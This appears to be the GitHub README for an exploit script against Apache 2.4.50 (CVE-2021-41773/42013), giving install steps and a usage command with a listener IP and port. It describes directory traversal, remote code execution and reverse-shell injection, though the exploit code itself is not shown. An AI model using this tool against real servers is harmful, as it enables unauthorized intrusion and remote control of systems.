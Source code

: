# Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
2. Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
4. install The Requirements:
   ```bash
   pip3 install -r Create add_requirements.txt

5. usage: 
   ```bash
   python3 50512.py target.txt -ip <YourIp> -p <ThePort>
   the text file should contain the url of the target

Example:
### Remote Code Execution
```
python3 50512.py target.txt -ip 10.0.2.15 -p 4444
```
![rce]()

   
### What the Script Does ???

Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or execute code remotely.
If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning:
For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 
